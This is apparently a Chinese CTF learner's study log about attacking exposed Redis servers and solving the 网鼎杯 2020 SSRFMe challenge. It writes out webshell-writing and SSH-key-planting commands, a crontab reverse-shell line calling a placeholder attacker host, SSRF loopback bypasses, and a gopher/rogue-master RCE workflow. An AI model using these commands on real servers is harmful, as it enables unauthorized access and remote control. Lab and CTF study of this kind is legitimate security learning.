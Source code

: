 # 关于靶机和服务器

因为决定进行redis的深度学习（误），所以想弄一台redis-4.x/5.x的靶机，

但是因为我这台电脑的神奇原因跑不了wsl2也就用不了docker，

于是想出了一个（大概是的）下策：买一台便宜的服务器用！

于是花了10美刀（TwT）给vultr

ip是207.148.118.147，地址在新加坡，

选了最便宜的5刀一个月（先试着用一下）

1vcpu+1GB的RAM，25GB的SSD，带宽肯定够用。

然后在上面搭了一个从vulhub弄来的docker容器，

```yml
version: '2'
services:
 redis:
   image: vulhub/redis:4.0.14
   ports:
    - "6379:6379"
```

对这种docker-compose.yml配置文件的用法也很简单，copy到同一目录，然后

```bash
docker compose up -d
```

用下面的命令可以检查服务状态:

```bash
docker compose ps
```

要进入到容器内部的redis-cli也很简单：

假设`docker ps`的输出如下：

CONTAINER ID   IMAGE                  ...   NAMES
abcdef    123456   vulhub/redis:4.0.14    ...   redis_redis_1

执行：

```bash
docker exec -it redis_redis_1 redis-cli
```

就可以进入redis-cli了，

暂停实例：

```
docker stop 容器名或ID
```

至于从外部，直接从6379端口连接就行。

PS:廉价服务器有点不稳定

# 关于redis的继续学习

## 在Web目录下写webshell

原理：Redis 支持命令 CONFIG SET dir 和 CONFIG SET dbfilename 配合 SAVE 命令，把数据库快照（dump.rdb）写到任意有写权限的目录和文件名

```bash
config set dir /var/www/html  // 设置要配置的目录(靶机因为是实例所以用/data/html代替了)
config set dbfilename cike.php  //设置要配置的文件名
set shell "\n\n\n<?php phpinfo();?>\n\n\n"  //设置键名还有键的值
save //最后保存
```

这个注入有两个关键点：
- dir后面的地址要存在，并且对其他用户可写（没有主机权限），否则无法save
- redis版本允许直接用config命令显式修改dir和dbfilename

## 替换公钥

```bash
ssh-keygen -t rsa
```

然后将公钥放进key.txt文件：

```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```

用管道符把keys.txt的内容直接写到目标主机redis的缓存里（键）：

```bash
cat key.txt| redis-cli -h xx.xx.xx.xx -x set ssh
```

然后用和前面一样的方法把它dump到dbfile中就可以。

## 利用crontab反弹shell

第一次接触反弹shell，先来看看代码：

```bash
set cike "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/attack_ip/port 0>&1\n\n" //设置cike键名及值
```


- \n\n：两个换行符，目的是让插入的内容在目标文件中单独一行（通常用于写入定时任务时格式正确）。
- */1 * * * * /bin/bash -i>&/dev/tcp/attack_ip/port 0>&1
  - 这是**crontab（定时任务）**的语法，意思是“每分钟执行一次后面的命令”。
  - /bin/bash -i>&/dev/tcp/attack_ip/port 0>&1 是一个反弹 shell命令。
    - /bin/bash -i：启动一个交互式 Bash shell。
    - >&/dev/tcp/attack_ip/port：把 Bash 的输入输出重定向到目标 IP (attack_ip) 和端口 (port) 的 TCP 连接上。
    - 0>&1：把标准输入重定向到标准输出（保证交互）。
- \n\n：再来两个换行符，确保 crontab 文件格式被正确识别。

这条命令让受害机器每分钟尝试连接攻击者的服务器（attack_ip:port），一旦攻击者在那边监听端口，就会拿到受害主机的 shell，获得远程控制权限。

```bash
config set dir /var/spool/cron // 使用centos的定时任务目录，ubuntu的为/var/spool/cron/crontabs目录
config set dbfilename shell //设置可写的文件名
save //保存
```

剩下的就是一样，dump到centos的定时任务目录就行。

## Redis主从复制导致RCE

重头戏来了！

可以大概这样子理解，我们做主机，目标做从机。漏洞版本的范围是在 redis_version: 4.x-5.x之间

在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以自定义新的的Redis命令，要通过写c语言并编译出.so文件才可以。

我们可以通过手法来上传so文件，这时候redis的module命令进行加载.so文件，就可以执行一些敏感命令。

这一块我们的靶机出了点问题，不管它了，我们来看题：

# 刷题之[网鼎杯 2020 玄武组]SSRFMe

跟昨天的ssrf_training完全一样的php代码！但是一样的payload却完全行不通，原因：前面的办法在curl较新的版本里被修复了，buu上无法使用。

不过过滤器放宽了一些，gopher和dict都可以用，这两者都和redis主从复制有关。

先试一试ip地址的绕过还是很宽松的：

?url=http://0.0.0.0/hint.php ->0.0.0.0 实际上会被解析为本机，访问的是本地服务。
?url=http://0x7F000001/hint.php ->0x7F000001 是 127.0.0.1 的十六进制写法。
?url=http://[0:0:0:0:0:ffff:127.0.0.1]/hint.php ->这是 IPv6 的兼容 IPv4 映射地址写法。[0:0:0:0:0:ffff:127.0.0.1] 等价于 [::ffff:127.0.0.1],这属于 IPv6 的 IPv4 映射地址，仍然代表本机。

都可以访问到本机（回环地址这一块）

提示告诉我们redis_pass，当然也就是要用redis主从复制了

主从复制，是指将一台Redis服务器的数据，复制到其他的Redis服务器。前者称为主节点(master)，后者称为从节点(slave)；数据的复制是单向的，只能由主节点到从节点。
redis的持久化使得机器即使重启数据也不会丢失，因为redis服务器重启后会把硬盘上的文件重新恢复到内存中，但是如果硬盘的数据被删除的话数据就无法恢复了，如果通过主从复制就能解决这个问题，主redis的数据和从redis上的数据保持实时同步，当主redis写入数据时就会通过主从复制复制到其它从redis。

所以我们这题的思路是，创建一个恶意的Redis服务器作为Redis主机（master），该Redis主机能够回应其他连接他的Redis从机的响应。有了恶意的Redis主机之后，就会远程连接目标Redis服务器，通过 slaveof 命令将目标Redis服务器设置为我们恶意Redis的Redis从机（slaver）。然后将恶意Redis主机上的exp同步到Reids从机上，并将dbfilename设置为exp.so。最后再控制Redis从机（slaver）加载模块执行系统命令即可。

工具放在tools/rrs里了，脚本也随在wp目录这里。

这个ssrf-redis是用于生成gopher伪协议的脚本

将ssrf-redis脚本mode3中lhost改成自己vps的ip地址，然后command改成我们需要rce的命令即可。

rogue-server.py主要是创建了一个监听端口为 6666 的恶意 Redis 服务器。当有客户端连接并发送特定命令（如 PING、REPLCONF、PSYNC 或 SYNC）时，服务器会返回相应的响应，其中包括了一个恶意的 PAYLOAD

用：

```bash
python3 ssrf-redis.py | jq -sRr @uri > exp.so
```

生成payload导入exp.so，之所以要进行两重编码是因为要导入浏览器，所以还需要一层url。

然后运行rogue-server.py执行即可

但是不知道为什么只有特定Ip能监听到，其他Ip全都是回显bool(false)，实在搞不定。

先这样吧，大概知道这个流程就可以，明天开始研究file-upload，我好困我要睡觉，怎么搞都是bool(false)



